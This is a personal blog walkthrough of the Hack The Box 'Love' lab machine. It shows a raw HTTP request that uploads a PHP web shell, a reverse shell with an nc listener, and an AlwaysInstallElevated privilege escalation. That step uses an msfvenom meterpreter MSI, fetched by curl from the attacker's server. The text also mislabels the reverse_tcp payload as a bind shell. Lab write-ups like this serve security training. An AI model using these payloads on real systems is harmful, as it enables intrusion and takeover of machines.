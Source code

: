 ```yaml
---
title: Hack The Box&#58; Love
permalink: /HTB/Love
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Love_Big.png?raw=true" width="25%" height="25%" unselectable="on" align="center" />

Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(2).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(3).png?raw=true) 
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(5).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(7).png?raw=true) 
<br />
<br />
Note that I replaced the red `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory. I set up a listener by running `nc -nvlp 4444` and then clicking `a.php` gives me:
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(8).png?raw=true) 
<br />
<br />
Sweet, and we're in a Windows machine. Let's check something simple; is AlwaysInstallElevated on? What this policy does is that, if it's on (we can check the registry), it will install any `.msi` files with SYSTEM level privileges. Running the `REG QUERY HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` will tell us if its enabled.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(9).png?raw=true) 
<br />
<br />
The 0x1 means that the policy is turned on. It's too lit. To abuse this, we can create a malicious msi file that will give us a bind shell, granting us remote access of the machine. Whereas in a remote shell we open a port on our attacking machine and the victim connects to us, a bind shell will have a port open up on the victim while we connect to it. This sounds complicated, but we can use msfvenom to generate it very easily. Running the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<port>-f msi > robux.msi` will create the payload. 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(11).png?raw=true) 
<br />
<br />
We can then set up a http server on our machine that our victim will access to download the file using curl. Run `python3 -m http.server` and `curl <my machine ip>:<port number><path to payload> --output <filename>` on the respective machines. I ran `curl`  in the `\images` so I could just refresh the webpage to see if my payload was uploaded (however you could just use `dir` to check on the reverse shell)
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(12).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(14).png?raw=true) 
<br />
<br />
Now lets check if our payload is there.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(15).png?raw=true) 
<br />
<br />
Robux op. Before we run this, we have to remember that we're using a bind shell so we have to connect to the listener that will be active once we run our payload. This can be done through metasploit and running the exploit `multi/handler` and setting our respective `LHOST` and `LPORT`.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(17).png?raw=true) 
<br />
<br />
Now lets run the msi file on the compromised host (we can just type out the filename and extension if its in our directory, or write the full path). 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(16).png?raw=true) 
<br />
<br />
ggez
-Dylan Tran 9/3/2021
